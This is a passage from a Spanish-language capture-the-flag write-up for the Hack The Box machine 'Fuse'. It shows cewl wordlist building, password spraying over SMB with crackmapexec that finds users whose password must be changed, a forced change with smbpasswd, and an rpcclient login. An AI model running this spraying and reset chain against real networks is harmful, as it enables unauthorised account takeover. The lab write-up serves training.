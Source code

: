 Ahora vamos a crear un diccionario con `cewl` con la información que hay en la página, ya que ni `smb` ni `rpc` nos deja logearnos de manera anónima.

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Fuse]
└──╼ #cewl -m 7 -w wordlist http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers -w diccionario.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```



### Enumeración SMB

Usando la herramienta `crackmapexec` que nos permite realizar un ataque de [password spraying](https://doubleoctopus.com/security-wiki/threats-and-tools/password-spraying/#:~:text=Password%20spraying%20is%20an%20attack,account%20by%20guessing%20the%20password.) que básicamente intenta acceder a varias cuentas con muy pocas contraseñas, en este caso, con el diccionario que creamos anteriormente, vamos a revisar si la contraseña de algunos de los usuarios se encuentra en el diccionario, para esto, vamos a ejecutar el siguiente comando:

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Fuse]
└──╼ #crackmapexec smb 10.10.10.193 -u usuarios -p diccionario.txt

SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 (name:FUSE) (domain:fabricorp.local) (signin
g:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
SMB        10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
```

Observamos que la contraseña del usuario `tlavel` y `bhult`  es `Fabricorp01`, sin embargo, se debe cambiar esta. Así que vamos a utilizar el comando [smbpasswd](https://www.samba.org/samba/docs/current/man-html/smbpasswd.8.html) para cambiar la contraseña de SMB de alguno de estos usuarios. 

```
┌─[root@parrot]─[/home/nicolasmira101]
└──╼ #smbpasswd -U tlavel -r 10.10.10.193                          
Old SMB password:                                                    
New SMB password:                                                    
Retype new SMB password:                                             
Password changed for user tlavel on 10.10.10.193.                  
```



### Enumeración RPC

Rápidamente ingresamos con el usuario y la contraseña que hayamos asignado a ese, al servicio `rpcclient`, ya que la contraseña se resetea después de aproximadamente 20 segundos.

```
┌─[root@parrot]─[/home/nicolasmira101]                             
└──╼ #rpcclient -U tlavel 10.10.10.193                           
Enter WORKGROUP\bnielson's password:
rpcclient $>                
```
